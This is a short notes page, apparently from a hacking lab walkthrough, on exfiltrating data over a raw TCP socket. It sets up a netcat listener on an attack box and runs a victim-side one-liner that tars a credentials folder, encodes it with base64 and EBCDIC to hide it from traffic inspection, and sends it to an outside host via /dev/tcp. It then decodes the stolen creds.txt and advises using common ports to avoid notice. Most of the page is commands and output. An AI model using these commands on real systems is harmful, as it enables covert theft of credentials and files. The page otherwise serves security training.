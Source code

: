 # Data Exfiltration

### Exfil using a TCP socket

* Good for when you know there are no network based security products&#x20;
* This is NOT recommending in a network that is well secured
* This is easy to detect because we are using anon standard protocols&#x20;

<figure><img src=".gitbook/assets/9931b598f5757bbdfb74004a2a43fe16.png" alt=""><figcaption></figcaption></figure>

* This shows the two hosts communicating over port 1337&#x20;
* In the real world please pick a normal port like 443 or 80, 8080, 8443 etc, etc
* The first machine listens on 1337&#x20;
* The other machine connects to `1.2.3.4:1337`&#x20;
* The first machine establishes the connection&#x20;
* Finally you can now send and receive data&#x20;

#### Set up your listener on the attack machines&#x20;

```
nc -lvp 8080 > /tmp/task4-creds.data
Listening on [0.0.0.0] (family 0, port 8080)
```

* Now on the victim to exfil the data

```
thm@victim1:$ tar zcf - task4/ | base64 | dd conv=ebcdic > /dev/tcp/192.168.0.133/8080
0+1 records in
0+1 records out
260 bytes copied, 9.8717e-05 s, 2.6 MB/s
```

* Note that we used the Base64 and EBCDIC encoding to protect the data during the exfiltration. If someone inspects the traffic, it would be in a non-human readable format and wouldn't reveal the transmitted file type.

```
ls -l /tmp/
-rw-r--r-- 1 root root       240 Apr  8 11:37 task4-creds.data
```

* On the attack box, we need to convert the received data back to its original status. We will be using the dd tool to convert it back.&#x20;

```
dd conv=ascii if=task4-creds.data |base64 -d > task4-creds.tar
tar xvf task4-creds.tar
task4/ 
task4/creds.txt
```

### Exfiltration using SSH
